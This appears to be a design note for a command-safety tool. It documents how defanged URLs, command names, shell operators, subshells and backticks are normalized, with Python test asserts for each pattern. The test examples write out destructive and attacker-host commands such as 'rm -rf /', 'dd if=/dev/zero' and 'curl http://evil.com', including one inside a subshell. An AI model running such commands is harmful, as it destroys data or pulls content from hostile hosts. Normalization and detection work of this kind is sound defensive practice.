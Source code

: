For each defanging pattern, document:

#### Pattern 1: URL Defanging (ACTUAL)
- **Original Form**: `https://evil.com/malware`
- **Defanged Form**: `hxxps://evil.com/malware`
- **Pattern**: `https://` → `hxxps://`, `http://` → `hxxp://`, `ftp://` → `fxp://`
- **Normalization Strategy**: Replace `hxxp` → `http`, `hxxps` → `https`, `fxp` → `ftp`
- **Test Examples**:
  ```python
  assert normalize_url("hxxp://evil.com") == "http://evil.com"
  assert normalize_url("hxxps://secure.com") == "https://secure.com"
  ```

#### Pattern 2: Dangerous Command Names (ACTUAL)
- **Original Form**: `bash script.sh`
- **Defanged Form**: `bxsh script.sh`
- **Pattern**: Vowel replacement in dangerous commands (`bash` → `bxsh`, `curl` → `cxrl`, `rm` → `rx`, `dd` → `dx`)
- **Normalization Strategy**: Reverse vowel replacement using defanging_map
- **Test Examples**:
  ```python
  assert normalize_command("bxsh script.sh") == "bash script.sh"
  assert normalize_command("cxrl hxxp://evil.com") == "curl http://evil.com"
  assert normalize_command("rx -rf /") == "rm -rf /"
  assert normalize_command("dx if=/dev/zero") == "dd if=/dev/zero"
  ```

#### Pattern 3: Dangerous Patterns (ACTUAL)
- **Original Form**: `cmd1 && cmd2`
- **Defanged Form**: `cmd1 [AND] cmd2`
- **Pattern**: `&&` → `[AND]`, `||` → `[OR]`, `|` → `[PIPE]`, `;` → `[SC]`
- **Normalization Strategy**: Replace pattern markers back to original operators
- **Test Examples**:
  ```python
  assert normalize_pattern("cmd1 [AND] cmd2") == "cmd1 && cmd2"
  assert normalize_pattern("cmd1 [PIPE] cmd2") == "cmd1 | cmd2"
  assert normalize_pattern("cmd1[SC] cmd2") == "cmd1; cmd2"
  ```

#### Pattern 4: Command Substitution (ACTUAL)
- **Original Form**: `$(curl http://evil.com)`
- **Defanged Form**: `[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]`
- **Pattern**: `$(cmd)` → `[SUBSHELL] cmd [SUBSHELL]`
- **Normalization Strategy**: Replace `[SUBSHELL] cmd [SUBSHELL]` → `$(cmd)`
- **Test Examples**:
  ```python
  assert normalize_substitution("[SUBSHELL] date [SUBSHELL]") == "$(date)"
  ```

#### Pattern 5: Backticks (ACTUAL)
- **Original Form**: `echo \`whoami\``
- **Defanged Form**: `echo [BACKTICK] whoami [BACKTICK]`
- **Pattern**: `` `cmd` `` → `[BACKTICK] cmd [BACKTICK]`
- **Normalization Strategy**: Replace `[BACKTICK] cmd [BACKTICK]` → `` `cmd` ``
- **Test Examples**:
  ```python
  assert normalize_backticks("[BACKTICK] whoami [BACKTICK]") == "`whoami`"
  ```
